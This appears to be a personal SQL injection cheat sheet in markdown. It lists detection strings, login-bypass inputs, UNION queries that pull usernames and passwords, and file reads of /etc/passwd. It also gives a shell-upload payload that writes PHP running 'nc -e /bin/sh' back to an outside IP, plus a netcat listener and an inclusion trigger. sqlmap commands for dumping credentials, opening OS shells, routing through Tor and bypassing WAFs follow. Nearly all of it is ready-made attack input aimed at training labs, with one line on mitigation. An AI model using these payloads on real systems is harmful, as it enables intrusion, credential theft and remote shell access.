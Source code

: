 # SQL Injection

## Cheat Sheets
- [PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Types
- MySQL
  - Error Based
    - ```'``` & ```"``` & ```\``` & ```)``` & tilda
  - Blind 
    - Boolean
      - True: ```id=1" and 1=1--```
      - False: ```id=1" and 1=2--```
      - Other
        - ```id=1' and 1=1--+```
        - ```id=1' and 1=1#```  
    - Time Based
      - ```id=1' and sleep(5)--```
      - ```id=';waitfor delay '0:0:5'--```

## Exploitation
- Login Bypass
  - Username : ```administrator'--```

- Where cluase : ```' OR 1=1--``` 

- UNION
  - ```' UNION SELECT NULL--``` , ```' UNION SELECT NULL,NULL--``` , ...
    - determining the number of columns  
  - ```' UNION SELECT 'abcdef',NULL,NULL--``` , ```' UNION SELECT NULL,'abcdef',NULL--``` , ...
    - finding a column containing text
  - ```' UNION SELECT username,password FROM users--```
    - retrive data from other tables
  - ```' UNION SELECT NULL,username||'~'||password FROM users--```
    - retrive multiple values in a single columns
  - querying the database type and version
    - Oracle : ```' UNION SELECT BANNER,NULL FROM v$version--```
    - MYSQL & MSSQL : ```' UNION SELECT @@version, NULL#```  (must use Burp because of #)
  - listing the database contents
    - non-Oracle
      - ```' UNION SELECT table_name, NULL FROM information_schema.tables--```
      - ```' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--```
      - ```' UNION SELECT username, password FROM users```
    - Oracle
      - ```' UNION SELECT table_name,NULL FROM all_tables--```
      - ```' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS'--```
      - ```' UNION SELECT USERNAME, PASSWORD FROM+USERS--```

## Payloads
```
a'or'1'='1
a' or '1'='1
a' or '1'='1'--
a' or '1'='1'#
a' or '1'='1'%23
a' or 1=1%23
1 or 1=1
1 or 1=1 limit 2,1
a'%09or%09'1'='1
a'/**/or/**/'1'='1
2 or 1=1
2%0Aor 1=1
` desc %23
IF(0,name,age)
' or 1=1#
' or 1=1--
' or 1=1 LIMIT 1 #
2 union all select * from users
```

## Tips
- True statement: ```aNd 1=1``` & ```aNd 21=21``` & ```orDeR bY 1```
- False statement: ```dNd 0=1``` & ```anD 9=2``` & ```ordEr bY 1000000000000```
- Space: ```+``` & ```/**/``` & ```%20```
- Comment: ```/*``` & ```//``` & ```;//``` & ```#``` & ```%23```

## Exploit
- Login
  - username: ```admin'#``` 
  - password: ```1' or 1=1#``` 

- Data Extracting 
  - Seleting database version, Database, user
    - ```?page=user-info.php&username=z' union select 1,database(),user(),version(),5%23``` 
  - Database tables 
    - ```... union select 1,table_name,null,null,5 from information_schema.tables``` 
    - ```... union select 1,table_name,null,null,5 from information_schema.tables where table_schema='owasp10'``` 
  - Table Columns
    - ```... union select 1,column_name,null,null,5 from information_schema.columns where table_name='accounts'``` 
  - Selecting data from table 
    - ```... union select 1,username,password,is_admin,5 from accounts``` 
  - Reading files
    - ```... union select null,load_file('/etc/passwd'),null,null,null``` 
  - Writing files
    - ```UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*``` 

- Shell upload 
  - Payload 
    - ```?page=user-info.php&username=z' union select '<?passthru("nc -e /bin/sh 10.20.14.208 8080");?>',null into outfile '/tmp/reverse.php'``` 
  - Listen on attacker machin
    - ```nc -vv -l -p 8080```
  - Run backdoor
    - ```10.20.14.211/dvwa/vulnerabilities/fi/?page=../../../../../tmp/reverse.php```

## Mitigation
- Use parametrized statements, separate data from sql code


## SQLMAP
- Usage
  - ```sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title```
    - Define "title" as the test parameter (input string was passed as value of title) 
  - ``` sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title --dbs```
    - Get a list of databases present on the database server 
  - ```sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP --tables``` 
    - Get a list of tables for database bWAPP
  - ```sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP -T users --columns``` 
    - Get the list of columns in the users table of bWAPP database
  - ```sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP -T users -C admin,password,email --dump``` 
    - Dump password and email for admin from the users table. Press 'n' twice when prompted

- Burp & SQLMAP
  - Intercept request in Burp, Right-click on it and choose "Copy to file"
  - ```sqlmap -r request -p title```

- Switches
  - Tor
    - ```--tor```
  - Shell
    - ```sqlmap -u "..." --sql-shell```
    - ```sqlmap -u "..." --os-shell```
  - WAF Bypass 
    - ```--tamper=space2dash, hex2char --dbs```
    - Path: /usr/share/sqlmap/tamper 
